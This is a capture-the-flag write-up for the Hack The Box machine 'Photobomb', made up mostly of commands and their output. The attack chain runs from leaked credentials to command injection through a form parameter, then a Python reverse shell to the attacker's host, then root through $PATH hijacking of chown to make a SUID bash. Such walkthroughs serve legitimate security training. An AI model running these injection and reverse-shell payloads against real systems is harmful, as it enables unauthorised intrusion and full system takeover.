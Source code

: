 # Target
| Category          | Details                                                    |
|-------------------|------------------------------------------------------------|
| 📝 **Name**       | [Photobomb](https://app.hackthebox.com/machines/Photobomb) |  
| 🏷 **Type**       | HTB Machine                                                |
| 🖥 **OS**         | Linux                                                      |
| 🎯 **Difficulty** | Easy                                                       |
| 📁 **Tags**       | Command injection, $PATH hijacking                         |

# Scan
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
```

# Attack path
1. [Gain access to `/printer` backend with discovered credentials](#gain-access-to-printer-backend-with-discovered-credentials)
2. [Gain initial foothold with command injection in `filetype` form parameter](#gain-initial-foothold-with-command-injection-in-filetype-form-parameter)
3. [Escalate to `root` user with $PATH hijacking](#escalate-to-root-user-with-path-hijacking)

### Gain access to `/printer` backend with discovered credentials

#### Add `photobomb.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Photobomb]
└─$ echo "$TARGET photobomb.htb" | sudo tee -a /etc/hosts
10.129.228.60 photobomb.htb
```

#### Discover credentials in `photobomb.js`
```
┌──(magicrc㉿perun)-[~/attack/HTB Photobomb]
└─$ curl http://photobomb.htb/photobomb.js                                                                                                                                     
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

#### Use discovered credentials to access `/printer` 
```
┌──(magicrc㉿perun)-[~/attack/HTB Photobomb]
└─$ curl -I http://photobomb.htb/printer -u 'pH0t0:b0Mb!' 
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 23 Jun 2025 20:17:25 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 4915
Connection: keep-alive
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
```

### Gain initial foothold with command injection in `filetype` form parameter

#### Start `netcat` for command injection probing
```
┌──(magicrc㉿perun)-[~/attack/HTB Photobomb]
└─$ nc -lnvp 80  
listening on [any] 80 ...
```

#### Probe command injection vulnerability in `filetype` form parameter with `wget`
```
┌──(magicrc㉿perun)-[~/attack/HTB Photobomb]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
curl http://photobomb.htb/printer -u 'pH0t0:b0Mb!' -d "photo=almas-salakhov-VK7TCqcZTlw-unsplash.jpg&filetype=jpg;wget+$LHOST&dimensions=1x1"
```

#### Confirm command injection
```
connect to [10.10.14.157] from (UNKNOWN) [10.129.228.60] 58322
GET / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.14.157
Connection: Keep-Alive
```

#### Start `netcat` to listen for reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB Photobomb]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
```

#### Inject command for Python reverse shell spawn
```
┌──(magicrc㉿perun)-[~/attack/HTB Photobomb]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
REVERSE_SHELL=$(echo "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"$LHOST\",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/sh\")'" | jq -sRr @uri) && \
curl http://photobomb.htb/printer -u 'pH0t0:b0Mb!' -d "photo=almas-salakhov-VK7TCqcZTlw-unsplash.jpg&filetype=jpg;$REVERSE_SHELL&dimensions=1x1"
```

#### Confirm foothold 
```
connect to [10.10.14.157] from (UNKNOWN) [10.129.228.60] 44784
$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
```

### Escalate to `root` user with $PATH hijacking

#### List allowed sudo commands
We can run `/opt/cleanup.sh` with `SETENV` permission.
```
$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

#### Identify relative path to `chown` used in `find -exec`
```
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

#### Spawn root shell with malicious `chown` injected to $PATH
```
$ echo 'cp /bin/bash /tmp/root_shell;chmod +s /tmp/root_shell' > /tmp/chown && \
chmod +x /tmp/chown && \
sudo -E PATH=/tmp:$PATH /opt/cleanup.sh && \
/tmp/root_shell -p
root_shell-5.0# id
id
uid=1000(wizard) gid=1000(wizard) euid=0(root) egid=0(root) groups=0(root),1000(wizard)
```

